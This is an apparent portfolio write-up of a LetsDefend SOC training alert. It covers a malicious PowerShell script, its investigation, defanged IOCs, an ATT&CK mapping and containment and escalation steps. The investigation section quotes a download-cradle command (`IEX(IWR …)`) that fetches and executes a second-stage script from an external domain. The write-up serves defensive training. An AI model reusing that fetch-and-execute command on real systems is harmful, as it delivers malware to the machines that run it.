





# [002] SOC153 · Suspicious PowerShell script with a download cradle
Platform: LetsDefend · Date: 2024-03-14 · Difficulty: High · Investigated: 2026-05
Verdict: True positive · Escalated: Yes
Data: simulated training environment. No real organization or user data involved.

## TL;DR
A user on host Tony ran a PowerShell script downloaded from the internet. It fetched a second stage with `IEX(IWR …)` and opened an outbound HTTPS connection.
True positive: the EDR only detected it, it did not block it.
I isolated the host and escalated to Tier 2 for forensic analysis.

## 1. Alert
Rule SOC153 (EventID 238), severity Medium. Source: LetsDefend EDR.



| Field | Value |
|---|---|
| Rule | SOC153 - Suspicious Powershell Script Executed |
| Event time | 14 Mar 2024, 05:23 PM |
| Host / IP | Tony / `172.16.17[.]206` |
| File | `C:\Users\LetsDefend\Downloads\payload_1.ps1` |
| SHA-256 | `db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0` |
| AV/EDR action | **Detected** (not blocked) |

## 2. Hypothesis
A user downloaded a PowerShell script from the internet and ran it.
If it is malicious, I expect: a download from an external URL shortly before the alert, `powershell.exe` making outbound connections, and possibly a second-stage download.

## 3. Data sources
- LetsDefend endpoint data: browser history, process log (raw log), PowerShell script block, network connections.
- VirusTotal: URL reputation.
- VirusTotal, Cisco Talos and MalwareBazaar: file hash lookups.

## 4. Investigation
**Browser history:** the last URL before the alert is the script itself, `hxxps://files-ld.s3.us-east-2.amazonaws[.]com/payload_1.ps1` at 17:22:25, after a series of Windows news sites.



**Endpoint process data (raw log):** `powershell.exe` (`C:\Windows\System32\WindowsPowerShell\v1.0\`), parent `explorer.exe`, status `SUCCESS`: the user launched it interactively.



**Script block logging:** the script spawns a download cradle that fetches and executes a second stage in memory:

```text
"C:\Windows\system32\cmd.exe" /c "powershell -command IEX(IWR -UseBasicParsing 'hxxps://kionagranada[.]com/upload/sd2.ps1')"
```



**Network:** outbound HTTPS (443) from `powershell.exe` to `161.22.46[.]148`, connection successful.

**Threat intelligence:**
- URL: **12/93** vendors on VirusTotal flag it as malicious; crowdsourced context links the domain to **SilentBuilder**, a dropper/downloader used by a Conti subgroup.
- File hash: no public matches on VirusTotal, Cisco Talos or MalwareBazaar at the time of analysis.



**Persistence:** no registry run keys or scheduled tasks associated with the incident were found.

## 5. Findings and verdict
**True positive.** A user-executed script downloaded a second stage with `IEX(IWR …)` and opened an outbound HTTPS connection. The EDR only *detected* it, so execution was not prevented.

| Time (14 Mar 2024) | Event |
|---|---|
| 17:22:25 | Browser downloads `payload_1.ps1` from S3 |
| ~17:23 | `explorer.exe` → `powershell.exe` runs the script |
| ~17:23 | `cmd.exe /c powershell IEX(IWR …sd2.ps1)`: second-stage download |
| ~17:23 | Outbound HTTPS from `powershell.exe` to `161.22.46[.]148` |
| 17:23 | SOC153 alert fires (EDR: Detected) |

## 6. Escalation decision
**Escalated to Tier 2.** The payload ran and was not blocked, and without a sandbox I could not confirm everything the second stage did. I contained the host first and escalated with the evidence I had, instead of guessing.

## 7. IOCs (defanged, also in iocs.csv)
| Type | Value | Context |
|---|---|---|
| sha256 | `db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0` | Script hash (alert) |
| filename | `payload_1.ps1` | Downloaded script (alert) |
| url | `hxxps://files-ld.s3.us-east-2.amazonaws[.]com/payload_1.ps1` | First-stage download (browser history) |
| url | `hxxps://kionagranada[.]com/upload/sd2.ps1` | Second stage (script block) |
| ip | `161.22.46[.]148` | Outbound HTTPS from powershell.exe (network log) |

## 8. MITRE ATT&CK
| Tactic | Technique | Evidence |
|---|---|---|
| Execution | T1204.002 User Execution: Malicious File | Parent `explorer.exe`: the user launched the downloaded script |
| Execution | T1059.001 Command and Scripting Interpreter: PowerShell | `powershell.exe` runs `payload_1.ps1` and `IEX` |
| Execution | T1059.003 Command and Scripting Interpreter: Windows Command Shell | `cmd.exe /c powershell …` |
| Command and Control | T1105 Ingress Tool Transfer | `IWR` downloads `sd2.ps1` |
| Command and Control | T1071.001 Application Layer Protocol: Web Protocols | HTTPS download/C2 traffic |

## 9. Response and recommendations
1. **Containment:** host *Tony* isolated from the network.
2. **Eradication:** could not confirm the full behavior of the script without a sandbox; escalated to Tier 2 for forensic analysis of the endpoint.
3. **Recommendations:**
   - Block both URLs/domains and the IP at the proxy/firewall; hunt for them across all endpoints.
   - Hunt for `IEX` + `IWR`/`DownloadString` in PowerShell script block logs (Event ID 4104).
   - Switch the EDR policy for this rule from *detect* to *block*.
   - Enforce Constrained Language Mode / AppLocker for scripts launched from user `Downloads`.

## 10. What I learned
- In my first version I wrote that the file hash was "not identified", but it was right there in the alert. Now I read every field of the alert before pivoting to external tools.
- The process log only told me "PowerShell ran". The second-stage download (`IEX(IWR …sd2.ps1)`) was only visible in the script block view, so I check script block logs every time PowerShell is involved.
- The EDR action said **Detected**, not blocked. I had assumed the payload was stopped; it was not.
- I had listed *Ingress Tool Transfer* as a tactic. It is a technique under *Command and Control*. I now check the ATT&CK matrix instead of mapping from memory.
- I had no sandbox, so I could not confirm everything the script did. Instead of guessing, I contained the host and escalated with the evidence I had.
